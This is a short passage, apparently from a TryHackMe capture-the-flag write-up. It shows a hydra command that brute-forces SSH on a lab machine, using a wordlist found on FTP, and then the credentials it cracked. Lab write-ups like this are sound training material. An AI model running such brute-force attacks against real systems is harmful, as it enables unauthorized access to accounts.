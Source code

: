 used the data found in ftp to brute force ssh since it was open

┌──(root💀kali)-[~/Desktop/THM]
└─# hydra -l lin -P locks.txt 10.10.38.189 ssh                                                                                                         

found a hit

[22][ssh] host: 10.10.38.189   login: lin   password: RedDr4gonSynd1cat3


